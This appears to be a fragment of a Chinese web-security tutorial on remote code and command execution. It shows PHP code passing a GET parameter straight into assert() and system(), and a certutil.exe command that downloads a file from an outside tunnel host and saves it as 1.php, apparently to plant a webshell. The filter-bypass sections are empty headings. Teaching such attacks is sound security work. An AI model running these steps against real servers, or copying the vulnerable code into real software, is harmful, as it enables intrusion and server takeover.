






# WEB攻防-RCE代码&命令执行&过滤绕过&异或无字符&无回显方案&黑白盒挖掘

```
$code=$_GET['c'];
assert($code);
```


连接成功



```
$cmd=$_GET['c'];
system($cmd);    //命令执行
```

制作脚本文件名为1.txt

利用棱角社区文件下载([[~\]#棱角 ::Edge.Forum*](https://forum.ywhack.com/bountytips.php?download))



```
certutil.exe -urlcache -split -f https://studies-referral-acdbentity-actors.trycloudflare.com:80/1.txt 1.php
```

虽然代码中直接调用了 `system()` 执行外部命令，
 但由于 Web 服务运行账户受到系统安全策略限制，
 无法创建子进程，导致该命令执行点在当前环境下不可利用


## 关键字过滤



命令过滤



加解码




